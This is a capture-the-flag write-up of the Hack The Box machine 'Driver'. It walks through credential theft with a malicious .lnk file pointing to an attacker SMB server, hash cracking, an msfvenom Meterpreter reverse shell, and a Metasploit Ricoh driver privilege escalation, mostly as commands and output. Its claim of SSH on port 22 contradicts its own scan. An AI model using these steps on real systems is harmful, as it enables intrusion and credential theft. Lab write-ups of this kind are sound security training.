










# HTB : Driver



| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Driver) |
| Difficulty | Easy |
| OS | Windows |
| Author | ByteFragment |
| Date | November 3rd 2026 |


## Enumeration

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sCV -T4 -p- 10.129.99.230 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT     STATE SERVICE      VERSION  
80/tcp   open  http         Microsoft IIS httpd 10.0  
| http-methods:   
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Microsoft-IIS/10.0  
|\_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
| http-auth:   
| HTTP/1.1 401 Unauthorized\\x0D  
|\_  Basic realm=MFP Firmware Update Center. Please enter password for admin  
135/tcp  open  msrpc        Microsoft Windows RPC  
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)  
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|\_http-server-header: Microsoft-HTTPAPI/2.0  
|\_http-title: Not Found  
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
| smb-security-mode:   
|   authentication\_level: user  
|   challenge\_response: supported  
|\_  message\_signing: disabled (dangerous, but default)  
| smb2-time:   
|   date: 2026-11-04T03:48:28  
|\_  start\_date: 2026-11-04T03:42:15  
|\_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s  
| smb2-security-mode:   
|   3.1.1:   
|\_    Message signing enabled but not required
```

From this scan we can see that the target machine is running an `SSH` server on port `22`, an `SMB` server on `445` and  `Windows Remote Managment port` `5985`. Let's add the target IP as well as `driver.htb`  to our /etc/hosts file as so:

```
10.129.99.230   driver.htb
```

and visit the page using the Burp Suite browser.

### Web Recon

Visiting the page we immediately receive a prompt asking us to log into the site:



Looking at the `HTTP Response` in Burp Suite we see something interesting:



The `WWW-Authenticate:` header reveals the realm as `MFP Firmware Update Center` and asks to enter the password for `admin`.

Since we now know that admin is a valid username it makes sense to attempt toe basic `admin:admin` credential combination:



Success! Clicking around the web page we see that the only valid tab is the `Firmware Updates` tab:



Here we can select a printer model and upload a firmware file. What is immediately interesting is the ` Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.`. This means we can potentially use this file upload functionality to upload a malicious file to the smb share and steal domain credentials.

## Foothold

[Alex Neacsu](https://securitycafe.ro/2026/04/21/weaponizing-smb-shares-to-steal-domain-credentials/) provides a great breakdown of this attack method.

"Files like .scf, .url, .lnk can contain references to remote UNC paths. When Windows renders a directory listing, it automatically attempts to resolve those paths, authenticating to the remote host in the process and handing the attacker a Net-NTLMv2 challenge-response they can take offline and crack."

Alex also references a tool called [ntlm\_theft](https://github.com/Greenwolf/ntlm_theft) that can generate multiple different file types for NTLMv2 hash theft.

So after cloning the repo and installing the necessary dependency we can execute the following to generate our malicious `.lnk` file:

```
python3 ntlm\_theft.py -g lnk -s \<ATTACKER\_IP\> -f bytefragment
```

The `-g` flag specifies the file type, the `-s` flag specifies the IP address that the file will reach out to, and the `-f` flag specifies the file name.

Displaying the contents of the file we can see that among the indecipherable text we can see `\\\\10.10.15.249\\tools\\nc.ico` which is what is responsible for the file reaching out to our attack machine.

Before we upload the `.lnk` file we need to set up a listener using `impacket-smbserver`:

```
impacket-smbserver -debug -smb2support share /home/kali/labs\_htb/Driver
```



Now we can upload the file using the Firmware Upload function on the weg page:



Checking our impacket-smbserver listener we see we have obtained a username and NTLM hash:



After copying the hash to a file we can attempt to crack the hash using `HashCat`:

```
hashcat -m 5600 tony.hash /usr/share/wordlists/rockyou.txt
```

The `-m 5600` tells hashcat to expect a `NetNTLMv2` followed by the file name containing the hash and then the absolute path to the rockyou.txt wordlist:

```
Session..........: hashcat  
Status...........: Cracked  
Hash.Mode........: 5600 (NetNTLMv2)  
Hash.Target......: TONY::DRIVER:aaaaaaaaaaaaaaaa:61e8929944c3aae028e9b...000000  
Time.Started.....: Tue Nov  3 22:02:42 2026 (2 secs)  
Time.Estimated...: Tue Nov  3 22:02:44 2026 (0 secs)  
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
```

Hashcat makes quick work of the hash giving us the password.

We can then use `evil-winrm` to login to the Remote Management server running on the target machine:

```
 evil-winrm -i 10.129.99.230 -u tony -p \<REDACTED\>  
                                          
Evil-WinRM shell v4.1  
                                          
Info: Establishing connection to remote endpoint  
                                          
Info: Connection successful  
\*Evil-WinRM\* PS C:\\Users\\tony\\Documents\> whoami  
driver\\tony  
h\*Evil-WinRM\* PS C:\\Users\\tony\\Documents\> hostname  
DRIVER
```

The `user.txt` flag can be found in tonys Desktop folder.

## Privilege Escalation

After some enumeration we find that tony's powershell history contains something interesting:

```
\*Evil-WinRM\* PS C:\\Users\\tony\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\> type "C:/Users/tony/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost\_history.txt"  
Add-Printer -PrinterName "RICOH\_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'  
  
ping 1.1.1.1  
ping 1.1.1.1
```

Particularly the command involving a `RICOH\_PL6` printer.

Searching `MetaSploit` we find that there is indeed a module for `ricoh\_driver\_privesc`:



Running the `options` command we see that this exploit requires us to have an active meterpreter session so we will have to establish that first.

First we need to generate our `Windows Meterpreter reverse shell` payload using `MSFVenom`:

```
msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=10.10.15.249 LPORT=1234 -f exe \> shell.exe  
  
\[-\] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
\[-\] No arch selected, selecting arch: x64 from the payload  
No encoder specified, outputting raw payload  
Payload size: 509 bytes  
Final size of exe file: 7680 bytes
```

Next we can use our `evil-winrm` session to upload the `shell.exe` payload:

```
\*Evil-WinRM\* PS C:\\Users\\tony\\Documents\> upload shell.exe  
                                          
Info: Uploading /home/kali/labs\_htb/Driver/shell.exe to C:\\Users\\tony\\Documents\\shell.exe  
                                          
Data: 10240 bytes of 10240 bytes copied  
                                          
Info: Upload successful!
```

Lastly we need to set up a listener in the metasploit console:

```
msf \> use exploit/multi/handler  
\[\*\] Using configured payload generic/shell\_reverse\_tcp  
  
msf exploit(multi/handler) \> set LHOST 10.10.15.249  
LHOST =\> 10.10.15.249  
  
msf exploit(multi/handler) \> set LPORT 1234  
LPORT =\> 1234  
  
msf exploit(multi/handler) \> set payload windows/x64/meterpreter/reverse\_tcp  
payload =\> windows/x64/meterpreter/reverse\_tcp  
  
msf exploit(multi/handler) \> run
```

We are now ready to execute the `shell.exe` payload and obtain a meterpreter shell:

```
msf exploit(multi/handler) \> run  
\[\*\] Started reverse TCP handler on 10.10.15.249:1234   
\[\*\] Sending stage (255676 bytes) to 10.129.100.29  
\[\*\] Meterpreter session 4 opened (10.10.15.249:1234 -\> 10.129.100.29:49416) at 2026-11-04 10:34:35 -0800  
  
meterpreter \> 
```


**Note that the following steps have to be done fairly quickly as the meterpreter session has a tendency to die.**


Running the `ps` command in the meterpreter shell reveals that we are running `shell.exe` in a non interactive session as indicated by the 0 before our user. We can however use the meterpreter `migrate` function to use the interactive session of another process such as `explorer.exe`:

```
...  
  
1800  4688  shell.exe                 x64   0        DRIVER\\tony  C:\\Users\\tony\\Documents\\shell.exe  
  
...  
  
 4808  652   explorer.exe             x64   1        DRIVER\\tony  C:\\Windows\\explorer.exe  
  
meterpreter \> migrate 4808  
\[\*\] Migrating from 1800 to 4808...  
\[\*\] Migration completed successfully.
```

We then need to background the session making note of its session id number using the `sessions` command.

We are now ready to run our `rich` exploit:

```
msf exploit(windows/local/ricoh\_driver\_privesc) \> set LHOST tun0  
LHOST =\> 10.10.15.249  
  
msf exploit(windows/local/ricoh\_driver\_privesc) \> set LPORT 4444  
LPORT =\> 4444  
  
msf exploit(windows/local/ricoh\_driver\_privesc) \> set SESSION 6  
SESSION =\> 6  
  
msf exploit(windows/local/ricoh\_driver\_privesc) \> run  
\[\*\] Started reverse TCP handler on 10.10.15.249:4444   
\[\*\] Running automatic check ("set AutoCheck false" to disable)  
\[+\] The target appears to be vulnerable. Ricoh driver directory has full permissions  
\[\*\] Adding printer RIbIKde...  
\[\*\] Sending stage (255676 bytes) to 10.129.100.29  
\[+\] Deleted C:\\Users\\tony\\AppData\\Local\\Temp\\cBnsbjJKF.bat  
\[+\] Deleted C:\\Users\\tony\\AppData\\Local\\Temp\\headerfooter.dll  
\[\*\] Meterpreter session 7 opened (10.10.15.249:4444 -\> 10.129.100.29:49420) at 2026-11-04 10:55:03 -0800  
\[\*\] Deleting printer RIbIKde  
  
meterpreter \> shell  
Process 1664 created.  
Channel 2 created.  
Microsoft Windows \[Version 10.0.10240\]  
(c) 2015 Microsoft Corporation. All rights reserved.  
  
C:\\Windows\\system32\>whoami  
whoami  
nt authority\\system  
options
```

We are now running a meterpreter shell as `nt authority\\system` !

The root flag can be found on the Administrators Desktop folder thus solving the challenge:



